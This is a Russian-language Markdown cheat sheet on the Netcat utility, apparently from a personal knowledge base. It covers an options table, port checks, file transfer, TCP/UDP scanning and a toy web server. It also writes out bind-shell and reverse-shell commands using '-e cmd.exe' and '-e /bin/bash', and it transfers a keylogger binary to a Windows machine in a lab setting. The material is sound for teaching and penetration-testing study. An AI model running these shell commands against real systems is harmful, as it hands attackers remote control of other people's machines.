


# Netcat (nc)

Netcat — сетевая утилита, которую часто называют «Швейцарским армейским ножом», используется для чтения или записи по TCP и UDP соединениям, используя простой интерфейс.

> [!tip] Смежная тема
> Подробнее про bind/reverse shell и оговорку про варианты netcat (`-e` есть только в traditional/`ncat`, в netcat-openbsd его нет) — в заметке [Reverse Shell](Reverse%20Shell.md).

##### Установка NetCat на Windows
Загрузите [архив](https://joncraton.org/files/nc111nt.zip) с утилитой.  
Перейдите в каталог с загрузками и распакуйте содержимое архива в любое удобное место.  
В нашем примере мы будем использовать каталог “C:\Program files\netcat”.  
При перемещении Вам необходимо ввести пароль “nc”.

##### Команды NetCat
| Опция      | Назначение (из `man`)                        | Описание                                                                                  |
| ---------- | -------------------------------------------- | ----------------------------------------------------------------------------------------- |
| -d         | detach from console, background mode         | фоновый режим работы                                                                      |
| -e prog    | inbound program to exec [dangerous!!]        | программа на исполнение для  <br>обмена данными с сетью                                   |
| -g gateway | source-routing hop point[s], up to 8         | свободная маршрутизация пакета  <br>от источника по указанному маршруту, максимум 8 точек |
| -G num     | source-routing pointer: 4, 8, 12, …          | свободная маршрутизация пакета  <br>от источника по указанному количеству указателей      |
| -h         | this cruft                                   | вывод справочной информации                                                               |
| -i secs    | delay interval for lines sent, ports scanned | задержка между отправляемыми  <br>данными в секундах                                      |
| -l         | listen mode, for inbound connects            | режим прослушивания порта,  <br>для входящих подключений                                  |
| -L         | listen harder, re-listen on socket close     | повторное прослушивание  <br>сокета закрытия                                              |
| -n         | numeric-only IP addresses, no DNS            | использование IP-адреса,  <br>а не DNS записи                                             |
| -o file    | hex dump of traffic                          | вывести дамп данных                                                                       |
| -p port    | local port number                            | локальный номер порта                                                                     |
| -r         | randomize local and remote ports             | cлучайные локальные и  <br>удаленные порты                                                |
| -s addr    | local source address                         | определяет заданный IP-адрес  <br>для использования                                       |
| -t         | answer TELNET negotiation                    | совместимость с telnet                                                                    |
| -u         | UDP mode                                     | режим подключения по UDP                                                                  |
| -v         | verbose [use twice to be more verbose]       | дополнительная диагностика                                                                |
| -w secs    | timeout for connects and final net reads     | таймаут подключения в секундах                                                            |
| -z         | zero-I/O mode [used for scanning]            | не посылать данные                                                                        |

#### Примеры использования

##### Подключение к порту TCP/UDP
Как следует из описания, Netcat может работать как в режиме клиента, так и в режиме сервера. Для начала давайте рассмотрим клиентский режим. Мы можем использовать клиентский режим для подключения к любому порту TCP/UDP, что позволяет нам: Проверить, открыт или закрыт порт или подключиться к сетевой службе.
Давайте начнем с использования Netcat (nc), чтобы проверить, открыт ли порт 80 на тестируемой машине (**_в качестве тестируемой машины мы будем использовать основную машину на которой установлена ВМ !!!_**).
Мы введем несколько аргументов: опцию -n, чтобы отключить DNS и поиск номеров портов по /etc/services; -v для вывода информации о процессе работы; IP-адрес назначения; и номер порта назначения:
```bash
kali@kali:~$ nc -nv 192.168.0.178 80
```

##### Прослушивание портов TCP/UDP

Прослушивание порта TCP/UDP с помощью Netcat полезно для сетевой отладки клиентских приложений или получения сетевого соединения TCP/UDP. Давайте попробуем реализовать простую службу чата с участием двух машин, используя Netcat как в качестве клиента, так и в качестве сервера. На машине Windows с IP-адресом 192.168.0.178 был настроен Netcat на прослушивания входящих соединений на порту TCP 4444. Мы будем использовать опцию -n для отключения DNS, -l для для создания слушателя, опцию -v и -p для указания номера порта прослушивания:
```bash
C:\Program Files\nc111nt> nc -nlvp 4444
```



Теперь давайте подключимся к этому порту с нашей Linux-машины:

```bash 
kali@kali:~$ nc -nv 192.168.0.178 4444
```

И напишем что-нибудь. Например "Hello". Наш текст будет отправлен на машину Windows через TCP-порт 4444:



##### Передача файлов с помощью Netcat

Netcat также можно использовать для передачи файлов, как текстовых, так и бинарных, с одного компьютера на другой. Чтобы отправить файл с нашей виртуальной машины Kali на систему Windows, мы инициируем настройку, похожую на предыдущий пример с чатом, с некоторыми небольшими отличиями. На машине Windows мы установим слушателя Netcat на порт 4444 и перенаправим вывод в файл под названием incoming.exe:

`C:\Program Files\nc111nt> nc -nlvp 4444 > incoming.exe`

В системе Kali мы передадим файл klogger.exe на машину Windows через TCP-порт 4444:

`kali@kali:~$ nc -nv 192.168.0.178 4444 < /usr/share/windows-resources/binaries/klogger.exe`

Обратите внимание, что мы не получили от Netcat никакой обратной связи о ходе загрузки файла. Мы можем просто подождать несколько секунд, а затем проверить, полностью ли загружен файл. Файл был полностью загружен на машину Windows.

##### Сценарий Netcat Bind Shell

В нашем первом сценарии Миша (работающий под управлением Windows) обратился за помощью к Кате (работающей под управлением Linux) и попросил ее подключиться к его компьютеру и отдать некоторые команды удаленно. Миша имеет публичный IP-адрес и напрямую подключен к Интернету. Катя, однако, находится за NAT и имеет внутренний IP-адрес. Мише нужно привязать cmd.exe к порту TCP на его публичном IP-адресе и попросить Катю подключиться к его определенному IP-адресу и порту. Миша запустит Netcat с параметром -e для выполнения cmd.exe:

`C:\Program Files\nc111nt> nc -nlvp 4444 -e cmd.exe`

Теперь Netcat привязал TCP порт 4444 к cmd.exe и будет перенаправлять любые входные, выходные данные или сообщения об ошибках от cmd.exe в сеть. Другими словами, любой человек, подключающийся к TCP порту 4444 на машине Миши (надеемся, что Катя), будет видеть командную строку Миши. Это действительно "зияющая дыра в безопасности"!

`kali@kali:~$ nc -nv 192.168.0.178 4444`

##### Сценарий Reverse Shell

В нашем втором сценарии Катя нуждается в помощи Миши. В этом сценарии мы можем использовать еще одну полезную функцию Netcat - возможность посылать команды на хост, прослушивающий определенный порт. В этой ситуации, Катя не может (по сценарию) привязать порт 4444 для /bin/bash локально (bind shell) на своем компьютере и ожидать подключения Миши, но она может передать управление своим bash на компьютер Миши. Это называется reverse shell. Чтобы это заработало, Миша сначала настроит Netcat на прослушивание. В нашем примере мы будем использовать порт 4444:

`C:\Program Files\nc111nt> nc -nlvp 4444`

Теперь Катя может отправить Мише обратный shell (reverse shell) со своей Linux-машины. И снова мы используем опцию -e, чтобы сделать приложение доступным удаленно, которым в данном случае является /bin/bash, оболочка Linux:

`kali@kali:~$ nc -nv 192.168.0.178 4444 -e /bin/bash`

Как только соединение будет установлено, Netcat Кати перенаправит /bin/bash входные, выходные и данные об ошибках на машину Миши, на порт 4444, и Миша сможет взаимодействовать с этой оболочкой:
##### Сканирование TCP-портов с помощью netcat:  

```bash
$ nc -vnz 192.168.1.100 20-24
```
 
При таком сканировании не будет соединение с портом, а только вывод успешного соединения: 

> nc: connectx to 192.168.1.100 port 20 (tcp) failed: Connection refused  
> nc: connectx to 192.168.1.100 port 21 (tcp) failed: Connection refused  
> found 0 associations  
> found 1 connections:  
> 1: flags=82<CONNECTED,PREFERRED>  
> outif en0  
> src 192.168.1.100 port 50168  
> dst 192.168.1.100 port 22  
> rank info not available  
> TCP aux info available  
> Connection to 192.168.1.100 port 22 [tcp/*] succeeded!  
> nc: connectx to 192.168.1.100 port 23 (tcp) failed: Connection refused  
> nc: connectx to 192.168.1.100 port 24 (tcp) failed: Connection refused

  ##### Сканирование UDP-портов.

Для сканирования UDP портов с помощью nmap необходимы root привилегии. Если их нет — в этом случае нам тоже может помочь утилита netcat:

```bash
$ nc -vnzu 192.168.1.100 5550-5560
```
 
> Connection to 192.168.1.100 port 5555 [udp/*] succeeded!

#####  Отправка UDP-пакета
  
```bash
$ echo -n "foo" | nc -u -w1 192.168.1.100 161
```
  
Это может быть полезно при взаимодействии с сетевыми устройствами.
##### Прием данных на UDP-порту и вывод принятых данных

```bash
$ nc -u localhost 7777
```

После первого сообщения вывод будет остановлен. Если необходимо принять несколько сообщений, то необходимо использовать while true:

```bash
$ while true; do nc -u localhost 7777; done
```
  
#####  Netcact в роли простейшего веб-сервера.
 
Netcat может выполнять роль простейшего веб-сервера для отображения html странички.

```bash
$ while true; do nc -lp 8888 < index.html; done
```

Открыть в браузере по адресу `http://<хост>:8888/index.html` (где `<хост>` — IP или имя машины с netcat). Для использования стандартного порта веб-сервера под номером 80 вам придётся запустить nc с root-привилегиями:

```bash
$ while true; do sudo nc -lp 80 < test.html; done
```

#NetCat
#Linux
#Network
#CheatSheet
